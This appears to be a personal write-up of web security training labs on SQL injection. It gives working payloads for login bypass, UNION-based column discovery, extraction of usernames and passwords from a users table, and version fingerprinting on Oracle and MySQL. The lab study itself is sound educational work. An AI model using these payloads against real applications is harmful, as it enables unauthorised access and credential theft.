 # Union Attacks (plus some basics)

Note: the final query is simply a guess of the general structure of what it looks like behind the scenes as we aren't given the source code for the actual queries.  I just found it helpful to visually see code highlighting for some of the query schenanigans that were taking place.

## SQLi using WHERE
This was was rather simple as it just invovled injecting a conditional into the query. 

Don't forget to substitute spaces with '+' when making requests.

Solution: `'+OR+1=1--`

Final query: 
``` SQL
SELECT * FROM table WHERE category = ''+OR+1=1-- AND released = 1'
```

## SQLi basic application login subversion
This was was also really easy as you could just comment out the logic related to password checking.

Solution: `administrator'--`
Final query: 
```SQL
                                       |    payload   |
SELECT name FROM users WHERE username='administrator'--' AND [password checking logic here]
```

## SQLi union to find # of cols
We can subvert the application logic by selecting Null values from the columns of the table.  If we don't select a value from each column without a WHERE statement, the application will throw an error.  Therefore we can simply keep adding NULL values until the application stops throwing errors.  Note the query is slighlty different Oracle.  

[Note this can also be done using ORDER BY but I found this easier]

Solution: `+UNION+SELECT+NULL,NULL,NULL--`
Final query:
```SQL
                                          |           payload           |
SELECT thing FROM table WHERE category = '' UNION SELECT NULL,NULL,NULL--[rest of query here]'
```

## SQL find column containing text
We used NULL as the values as regardless of the data type of each column, given we selected from each there would be no error.  Now to find which ones are strings we can simply just test each column with a string instead of NULL.

Solution: `+UNION+SELECT+'eee',NULL,NULL` ect ect ect

## SQL union to get data from other tables
First step is to use the previous two methods to find out the number and type of each columns.  We find there are two columns that have strings.  Since we're given the fact that they are named `username` and `password`, we can simply query from both.  Checking for extra columns is useful given there were other columns that would have caused this attack to error.

Solution: `'+UNION+SELECT+username,+password+FROM+users--`
Final query:
```SQL
                                         |                  payload                  |
SELECT * FROM products WHERE category = '' UNION SELECT username,password FROM users--[rest of query here] 
```
## SQL union multipile tables in single column
Using the previous methods to determine the type and number of columns, we find one that has string values and another that is of another data type.  Therefore to exfiltrate both tables in only one column we must simply append the values of one table to the other.  It may be useful to check the version of SQL the site is running as different SQL flavors have differing sytax for string cocatination.

Solution: `'UNION SELECT NULL,username||password FROM USERS--`
Final query:
```SQL
                                         |                      payload                     |
SELECT * FROM products WHERE category = '' UNION SELECT NULL, username||password FROM USERS--[rest of query here]
```

## SQL union select version on Oracle
Given we are told that the version is Oracle for this database, we can simply union attatch the version at the end of the query.  Note the unique syntax of Oracle as it always requires a `FROM` and a table with every `SELECT` query so we must modify the payload to find the type and number of tables.  We can remedy this by using the `dual` table which is always present like so: `'+UNION+SELECT+'eee','eee'+FROM+dual--`.  We can then request the banner from the `v$version` table which can be found on the [sql cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Solution: `'+UNION+SELECT+NULL,BANNER+FROM+v$version--`
Final query:
``` SQL
                                         |                 payload                 |
SELECT * FROM products WHERE category = '' UNION SELECT NULL,BANNER FROM v$version--[rest of query here]'
```

## SQL union select version on non Oracle
Repeat with the previous except you need to test for which version the database is in.  This one turns out to be MySQL.  Substitute accordingly sytax wise.

NOTE: for MySQL you need a space after the double dash to properly comment or use a #.

Solution: `'+UNION+SELECT+@@version,+NULL--+` 